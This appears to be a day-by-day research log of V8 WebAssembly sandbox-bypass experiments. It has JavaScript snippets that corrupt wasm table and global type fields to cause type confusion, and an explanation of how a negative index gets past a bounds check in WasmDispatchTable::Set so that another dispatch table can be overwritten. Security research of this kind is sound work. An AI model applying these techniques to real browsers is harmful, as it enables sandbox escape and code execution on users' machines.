

## Day 1: call_indirect

- **call_indirect** used for calling a function in the wasm table

=> so we can overwrite `raw_type` of table `entries` in this table

Example:
```js
// Put a WasmJSFunction into table1 while it still has type $sig1.
table1.set(0, new WebAssembly.Function(
  {parameters: [], results: ['i64']},
  () => BigInt(Sandbox.targetPage)));

// // Now set table1's type to $sig0.
let t0 = getPtr(table0);
let t1 = getPtr(table1);
let t0_type = getField(t0, kWasmTableObjectTypeOffset);
let expected_old_type = (($sig1 << kHeapTypeShift) | kRef) << kSmiTagSize;
setField(t1, kWasmTableObjectTypeOffset, t0_type);
```


- Using Claude: 




## Day 2: call_ref

- **call_ref** used for calling a function by global value, it litterally looks like that:

=> reading more about typed function type references for Webassembly proposal:  https://github.com/WebAssembly/gc/blob/main/proposals/function-references/Overview.md

```js
let $fn = builder.addGlobal(wasmRefType($sig_v_ll), true, false, [kExprRefFunc, $nop.index]).exportAs("fn");
builder.addFunction("boom", $sig_v_ll)
  .exportFunc()
  .addBody([
    kExprLocalGet, 1,
    kExprLocalGet, 0,
    kExprGlobalGet, $fn.index,
    kExprCallRef, $sig_v_ll, // call_ref
  ]);
```

By overwritting `raw_type` of global variable, we can get confuse input type of wasm function also

```js
setField(getPtr(fn), kWasmGlobalObjectRawTypeOffset, new_type);
```

=> result: nothing happens
- If we change internal pointer index before instantiation, so the program cannot import table because fail type checking.


## Day 3: WasmDispatchTable

- issues: https://chromium-review.googlesource.com/c/v8/v8/+/5701137

- Using negative number can bypass `SBXCHECK_LT` in `WasmDispatchTable::Set`, because both `index` and `length()` are represented in `int` type. 

```cpp
void WasmDispatchTable::Set(int index, Tagged<Object> ref, Address call_target,
                            int sig_id) {
  if (ref == Smi::zero()) {
    DCHECK_EQ(kNullAddress, call_target);
    Clear(index);
    return;
  }

  printf("\033[1;31mWasmDispatchTable::Set\033[0m\n");

  SBXCHECK_LT(index, length());
  DCHECK(IsWasmApiFunctionRef(ref) || IsWasmTrustedInstanceData(ref));
  DCHECK_EQ(ref == Smi::zero(), call_target == kNullAddress);
  const int offset = OffsetOf(index);
  WriteProtectedPointerField(offset + kRefBias, Cast<TrustedObject>(ref));
  CONDITIONAL_WRITE_BARRIER(*this, offset + kRefBias, ref,
                            UPDATE_WRITE_BARRIER);
  WriteField<Address>(offset + kTargetBias, call_target);
  WriteField<int>(offset + kSigBias, sig_id);
}
```

- Example:
```js
// call table set
// check bypassed, write @ index -7 -> writes exactly into table_v_ll dispatch table!
table_v_ls.set(0xfffffff9, writer);
```
Full script in [dispatch-table.js](dispatch-table.js)

- So what is the purpose of `WasmDispatchTable`?


## Day 4: WasmDispatchTable, table->uses, and WasmImportData

- https://chromium-review.googlesource.com/c/v8/v8/+/6035506

Example:
  - [test-script](dispatch-table-uses.js)
  